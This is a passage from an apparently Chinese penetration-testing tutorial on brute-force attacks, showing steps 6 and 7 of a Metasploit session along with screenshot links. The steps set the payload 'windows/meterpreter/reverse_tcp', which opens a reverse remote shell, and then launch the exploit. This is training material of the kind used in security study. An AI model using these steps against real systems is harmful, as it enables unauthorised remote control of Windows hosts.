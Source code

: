 ![image-20201118133244143](75、暴力破解/image-20201118133244143.png)

#### 6、设置payload

```
set payload windows/meterpreter/reverse_tcp
```

![image-20201118133258677](75、暴力破解/image-20201118133258677.png)

#### 7、启动服务

```
run/exploit
```

![image-20201118133310297](75、暴力破解/image-20201118133310297.png)
